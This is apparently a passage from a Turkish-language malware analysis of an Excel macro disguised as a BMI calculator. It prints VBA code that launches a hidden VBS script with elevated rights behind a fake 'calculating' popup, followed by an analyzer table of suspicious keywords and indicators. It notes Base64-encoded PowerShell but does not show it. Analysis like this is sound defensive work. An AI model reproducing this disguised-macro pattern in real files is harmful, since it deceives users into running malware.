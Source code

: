     Application.Wait (Now + TimeValue("0:00:10"))
    shellapp.ShellExecute "wscript.exe", "C:\Users\RickMartinGrimes\AppData\Local\Temp\notamalware.vbs", Null, "runas", 1
    
    BtnCode = WshShell.Popup("Please waiting, your BMI is calculating", 10, "Calculating...", 0 + 64)
    
    Boy = Range("C4").Value
    Kilo = Range("C5").Value
    Ara = (Boy / 100) * (Boy / 100)
    Range("C6").Value = Kilo / Ara
End Sub
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Button1_Click       |Runs when the file is opened and ActiveX     |
|          |                    |objects trigger events                       |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|WScript.Shell       |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Run                 |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|ShellExecute        |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|powershell          |May run PowerShell commands                  |
|Suspicious|encodedcommand      |May run PowerShell commands                  |
|Suspicious|CreateObject        |May create an OLE object                     |
|Suspicious|Shell.Application   |May run an application (if combined with     |
|          |                    |CreateObject)                                |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |wscript.exe         |Executable file name                         |
|IOC       |notamalware.vbs     |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```

Butona tıklandığında, birkaç atama yapılmasıyla birlikte Base64 ile encode edilmiş Powershell komutları çalıştırılıyor.
```